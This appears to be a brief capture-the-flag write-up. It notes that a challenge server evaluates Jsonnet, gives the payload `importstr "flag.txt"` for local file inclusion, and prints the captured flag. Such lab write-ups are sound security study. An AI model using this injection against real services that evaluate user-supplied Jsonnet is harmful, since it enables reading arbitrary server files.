 POC :
The server using jsonnet

posible lfi using importstr : https://github.com/google/jsonnet/pull/805
payload : `importstr "flag.txt",`
`MAPNA{5uch-4-u53ful-f347ur3-a23f98d}`
